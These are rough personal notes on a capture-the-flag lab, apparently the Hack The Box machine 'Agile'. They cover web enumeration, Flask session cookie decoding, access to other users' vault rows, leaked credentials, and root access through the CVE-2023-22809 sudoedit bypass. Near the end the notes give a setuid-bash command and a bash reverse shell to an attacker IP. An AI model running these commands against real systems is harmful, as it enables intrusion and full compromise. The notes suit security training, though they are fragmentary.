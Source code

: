 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


port 80 is open

echo "10.10.11.203 superpass.htb" >> /etc/hosts

on account login we have sql alchemy

![](20230627071229.png)

when searching for vault and flask it seemse there is vault-consul flask repo taht is being used

```
sqlalchemy.exc.OperationalError: (pymysql.err.OperationalError) (2006, "MySQL server has gone away (BrokenPipeError(32, 'Broken pipe'))")
[SQL: SELECT users.id AS users_id, users.username AS users_username, users.hashed_password AS users_hashed_password 
FROM users 
WHERE users.username = %(username_1)s 
 LIMIT %(param_1)s]
[parameters: {'username_1': 'root', 'param_1': 1}]
(Background on this error at: https://sqlalche.me/e/14/e3q8)
```

we can check for sql injection here

continuing with enumerating the directories

we can use wapalyzer to look into the tech stack used for the website

Popper
jQuery 3.3.1
_hyperscript
Htmx
Bootstrap 4.1.3

![](20230628021152.png)

There is no injection in this vault.

trying in burpsuite

GET /vault HTTP/1.1
Host: superpass.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://superpass.htb/account/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwPlw.tht5dBfc0fqoWx__ELOSGA9bCaw
Connection: close


POST /v1/leaks:lookupSingle HTTP/1.1
Host: passwordsleakcheck-pa.googleapis.com
Content-Length: 43
X-Goog-Api-Key: dummytoken
Content-Type: application/x-protobuf
Sec-Fetch-Site: none
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


  !ßÜºd¨êÕBà#ð0ÀE:m ÀPÙ^'­wªÄ


### things to learn

cookie unsign in flask-unsign

or using the site
https://www.kirsle.net/wizards/flask-session.cgi

```
{
    "_fresh": true,
    "_id": "f1758cd40a69e453c79b8f231b7bfa827162a260ddf6d0c8f913e92be25a87b35c36a745c4783f6cdcf56abcc4610d9e99b22dfea4359e9fd115001c23fe74b4",
    "_user_id": "10"
}

```

GET /vault/edit_row/10 HTTP/1.1
Host: superpass.htb
HX-Request: true
HX-Current-URL: http://superpass.htb/vault
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: */*
Referer: http://superpass.htb/vault
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwkuw.A-ubmOw9-8SGSA7Ci5BQ6zf2hpw
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Jun 2023 12:18:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 690

<tr>
    <td>
        
        <a hx-post="/vault/update/10" 
            hx-include="closest tr"
            hx-trigger="click, keydown[key=='Enter'] from:closest tr">
            <i class="fas fa-save"></i>
        </a>
        <a hx-get="/vault/row/10" 
            hx-trigger="click, keydown[key=='Escape'] from:closest tr">
            <i class="fas fa-undo"></i>
        </a>
        
    </td>
    <td><input type="text" name="url" placeholder=" site" value="asdfsd" /></td>
    <td><input type="text" name="username" placeholder=" username" value="asdfsada" /></td>
    <td><input type="text" name="password" placeholder=" password" value="865b8919c771sdfasdf4dd5bf9f" /></td>
</tr>

we can try and bruteforce to edit the row endpoints

![](20230628082901.png)

But none of that seems to be working.

Ideally I should have gotten 
corum and 
5db7caa1d13cc37c9fc2


![](20230630022009.png)

found out that there is an experimental server here

after netstat pantu

and using chisel brought it ot localhost

at /vaulr/row/1

i should have found edwards password but i didnt


agile edwards d07867c6267dcb5df0af

[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt


edwards@agile:~$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:~$ sudo -u dev_admin sudoedit /app/config_test.json

chmod u+s /bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.24/9001 <&1 &'

edwards@agile:~$ bash -p
root@agile:~# whoami
root
root@agile:~# cat /root/root.txt
d096bf0665aa1d99f6d85b854496baa6


https://www.vicarius.io/blog/cve-2023-22809-sudoedit-bypass-analysis

adding a reverse shell gave me the connection
![](20230701204658.png)